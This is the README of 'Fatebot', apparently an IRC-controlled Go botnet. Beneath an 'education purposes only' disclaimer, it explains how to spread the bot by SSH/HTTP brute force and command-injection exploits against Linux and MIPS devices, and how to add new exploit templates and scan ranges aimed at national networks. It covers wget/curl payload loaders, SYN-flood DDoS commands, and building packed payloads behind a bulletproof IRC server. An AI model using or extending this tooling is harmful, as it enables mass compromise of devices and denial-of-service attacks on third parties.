

	
	 
	
	
	
	
  	 

	<b><ins>⚠️ DISCLAIMER ⚠️</ins></b>
	 
	Bozer\Bulldozer (old name is R4bin) the author of Fatebot.
	 
		I create this project for education purposes only, the use of this software is your responsibility!!!
	 

---

# Spread Feature
The spread feature of this bot will scan on the default SSH and HTTP port. Option about the scan feature in this bot is to scan on CN, HK, KR, and BR network or you can do a random scan or even you can add your mods, all of these is up to you. This bot will brute-force attack and exploit the target device, server, etc that's run Linux or uses MIPS x32 architecture. The loader will use "wget" or "curl" as a default loader for downloading payload from The FTP server or any option in any server type that you can host your payload, not maintionly to be an FTP server.
	
	# How to add more scanner network (Create your own scan mod).
	
	1) Go to scanner.go file and add a new slice for your scan network.
	
		# Example:
			
			var ItalyNetwork = []string {
				"123.456", //123.456.0.0/16
			}
			
			# since v0.6.0 will be use only 16 bit of the ip range (I'm still confused about subnet mask lol).
			
	2) Go to header.go file and scroll down to the map name "ScanMap".
	3) Custom your key and value. The value of map is structure, so you need to call a value in "Bot" structure and fill it.
	
		# Example:
		
			"-it": {				 # This key will be the command of a network arg in "?scan" command. "it" is short form italy.
				scanNetwork: ItalyNetwork, 	 # Fill the "scanNetwork" that's a value of "Bot" structure. To your network slice.
				scanOptFull: "\"ITALY\"",	 # Add full name of the network for a report process.
				isRandom:    false,		 # Set "isRandom" to false because it's not a full random network.
			},
	
	4) Done... just save it.
	
# Add/Customize Exploit
The exploit that's used in this botnet mostly will be a command injection (TBH it's all of it LMAO). You can add more new exploits if you want, but I recommend it to be a command injection vulnerability because you don't need to add or write anything more you just need to config it. I try to make the exploit feature easy and flexible to the configuration as much as I can. If 2 examples down below is not enough you can see more example in "internal/exploit.go".

	#############################################################
	### Example 1 Incase that you want to add new HTTP header ###
	#############################################################
	
	func (b *Bot) CVE_someYear_newCVE1() {
		
		# If you add a post exploit, then customize it with a json.
		# Incase that your exploit need to inject on a post body just call an inject function --> b.inject("default or mips", true)
		
		
		# In this example will use default architecture so that's why we put "default" if your exploit use mips just put "mips".
		# Always put true because we are doing an exploit not scanning (The inject function has reused in the scanner function).
			
		newCVE1, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("default", true),
		})
		
		# This is just a http header customization.
		# Incase that your exploit need to inject on a header just doing the same with the body. 
		
		enewCVE1 := Exploit{
			exploitName:       "CVE_someYear_newCVE1",			# Customize exploit name for a report process.
			exploitMethod:     "POST",					# Which http method you will use for this exploit.
			exploitHeader:     "example/something",				# Customize http header.
			exploitBody:       convReader(newCVE1),				# Customize http body.
			exploitAgent:      "example"+b.inject("default", true),		# Customize http agent.
			exploitAccept:     "example",					# Customize http accept.
			exploitContType:   "example",					# Customize http content type.
			exploitConnection: "example",					# Customize http connection.
		}
		
		# If you want to add new header then just call it, like the example down below.
		
		_, newHeader := enewCVE1.setupExploit(b.tempIP)			# Use "enewCVE1" for calling Exploit structure function.
		newHeader.Header.Set("newHeader", "headerContent")		# Add new header (header, header_content).
		b.exploitLauncher(enewCVE1, newHeader)				# Launch the exploit by put the exploit strucutre and header in to "b.exploitLauncher(ourExploit, ourHeader)" function.
	}
	
	###################################################################
	### Example 2 Incase that you don't need to add new HTTP header ###
	###################################################################
	
	# This example is the same like the first example in term of header and body configs.
	
	func (b *Bot) CVE_someYear_newCVE2() {			
		newCVE2, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("default", true),
		})
		enewCVE2 := Exploit{
			exploitName:       "CVE_someYear_newCVE2",			# Customize exploit name for a report process.
			exploitMethod:     "POST",					# Which http method you will use for this exploit.
			exploitHeader:     "example/something",				# Customize http header.
			exploitBody:       convReader(newCVE2),				# Customize http body.
			exploitAgent:      "example"+b.inject("default", true),		# Customize http agent.
			exploitAccept:     "example",					# Customize http accept.
			exploitContType:   "example",					# Customize http content type.
			exploitConnection: "example",					# Customize http connection.
		}

		b.exploitLauncher(enewCVE2,  b.selfRequest(enewCVE2))		# In the first example you need to call "setupExploit" function but this example you don't need to call it.
										# Just call "exploitLauncher" function and in the second argument use "selfRequest" function instead of a newHeader value. 
										# Because we only use default header-set and then put our exploit structure in to the "selfRequest" argument.
	}
	
# Attack Feature
The attack feature mostly will play around with The Transport Layer, but also have an application and The Network Layer too.
All of the attack vectors except "HTTP" DDoS vectors will be random source ports and windows size automatically, but the DST port will let the bot herder config by them self.

	# tcp -syn 127.0.0.1 192.168.50.129 -r 100 //command that's used in this screenshot.

# IRC Commands
	
	cat irc/commands.txt 
	
	# I have moved irc commands from github repositories to commands.txt file.

# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	# The bot system architecture is up to which payload you upload on your payload server.
	# If you upload x32 on your payload server, the bot that you have scaned will be only x32 arch.
	# The mips architecture is specific for doing an exploit only, so it doesn't count to the scan process!!!
	# To run the payload you need to run with root access!!!

# Requirements
<ul>
	<li>x1 Bulletproof IRC Server</li>
</ul>

<ul>
	<li>x1 Payload Hosting Server</li>
</ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer</li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>
